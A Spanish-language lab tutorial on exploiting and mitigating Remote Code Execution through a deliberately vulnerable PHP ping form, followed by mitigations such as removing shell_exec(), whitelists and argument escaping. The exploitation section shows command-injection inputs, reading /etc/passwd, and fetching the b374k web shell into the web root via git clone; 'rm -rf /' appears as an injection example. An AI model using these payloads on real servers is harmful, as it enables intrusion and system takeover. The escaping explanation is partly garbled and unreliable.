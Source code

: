 # Explotación y Mitigación de Remote Code Execution (RCE)

De forma sencilla el ***RCE*** es una vulnerabilidad en la que un servicio web permite hacer una inyección de lenguaje scripting básico, permitiendo a un atacante ejecutar comando sobre el servidor que contiene en servicio web.

El resultado de esos comandos se muestra en la misma página de forma dinámica.

Algunas de las consecuencias que tiene el *RCE*:

+ Acceso a información sensible (usuarios, archivos, configuración).
+ Ejecución de comandos maliciosos (descarga y ejecución de malware).
+ Escalada de privilegios y control total del sistema.

## Indice
> 1. [Creación de página vulnerable a RCE](#creación-de-página-vulnerable-a-rce)  
> 2. [Mitigaciones de RCE](#mitigaciones-de-rce)  
> &nbsp;&nbsp;&nbsp;&nbsp;2.1 [Eliminar el uso de shell_exec()](#eliminar-el-uso-de-shell_exec)  
> &nbsp;&nbsp;&nbsp;&nbsp;2.2 [Listas blancas](#listas-blancas)  
> &nbsp;&nbsp;&nbsp;&nbsp;2.3 [Ejecutar Comandos con Escapes Seguros](#ejecutar-comandos-con-escapes-seguros)  

## Creación de página vulnerable a RCE

Vamos a crear una pequeña página llamada: [rce.php](./Recursos/rce.php) con un input que va a recibir una dirección ip y se va a encargar de hacer ping a ella:

![RCE.php](./Imagenes/1.png)

El uso legítimo de la página es recibir una dirección ip y te muestra el resultado del ping:

![ping](./Imagenes/2.png)

Vamos a probar a introducir el comando ***id*** anidado a una dirección ip de la siguiente manera:

```
8.8.8.8 & id
```

Devueve el resultado del ping y ademas devuelve el resultado del comando id:

![ping](./Imagenes/3.png)

Ahora vamos a listar archivos:

![ping](./Imagenes/4.png)

Vamos a leer el contenido de ***/etc/passwd***:

![ping](./Imagenes/5.png)

Ahora vamos a realizar la prueba de intentar ejecutar malware:

Primero le damos permisos a */var/www/html* en nuestro contenedor:

```
sudo chmod -R 777 /var/www/html/
```
Y ahora intentamos descargarnos el malware desde un repositorio de git:

```
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
```


Al ejecutarse se habra descargado la carpeta **b374k** y dentro de ella varios archivos, entre ellos, **index.html** , que si accedemos a el pode¡remos ejecutar los comandos que queramos:

![ping](./Imagenes/6.png)

![ping](./Imagenes/7.png)

Ya tendriamos el control total del sistema.

## Mitigaciones de RCE


Una vez explotadas la vulnerabilidades vamos a ver como mitigarlas:


Creamos el siguiente archivo llamado [rce2.php](./Recursos/rce2.php) que espera recibir un comando por parámetro por url:


![rce2.php](./Imagenes/8.png)

### Eliminar el uso de shell_exec()

Una forma de mitigación es eliminar la posibilidad de ejecutar comandos eliminando ***shell_exec()***, para ello creamos el archivo [rce3.php](./Recursos/rce3.php):

![rce3.php](./Imagenes/9.png)

Los beneficios de eliminar *shell_exec()* son:

+ Bloquea cualquier intento de ejecución de código en el sistema.
+ Evita ataques RCE de forma definitiva.
+ No necesita más medidas de seguridad, ya que la ejecución de comandos es eliminada.

### Listas blancas

También podemos hacer uso de listas blancas si necesitamos hacer uso de algunos comandos:

Creamos un fichero [rce4.php](./Recursos/rce4.php) con los comandos permitidos '***ls***', '***whoami***' y '***pwd***':

![rce4.php](./Imagenes/10.png)

Si probamos a pasarle un comando de los permitidos funciona:

![rce4.php](./Imagenes/11.png)

En cambio, si introducimos un comando no permitido, nos indica que el comando no esta permitido;

![rce4.php](./Imagenes/12.png)

### Ejecutar Comandos con Escapes Seguros

Si se necesita ejecutar comandos con argumentos, podemos usar ***escapeshellcmd()*** para evitar inyección de comandos.

Creamos un fichero [rce5.php](./Recursos/rce5.php) con escapes para argumentos, y también escapa caracteres especiales con ***escapeshellcmd()*** para mayor seguridad:

Si intentamos agregar el comando **rm -rf /** la función escapeshellarg() convertirá la entrada en: 'ping 8.8.8.8; rm -rf/), eliminará todo el comando y no ejecuta nada. Por eso controlamos cadena vacía:

![rce4.php](./Imagenes/13.png)
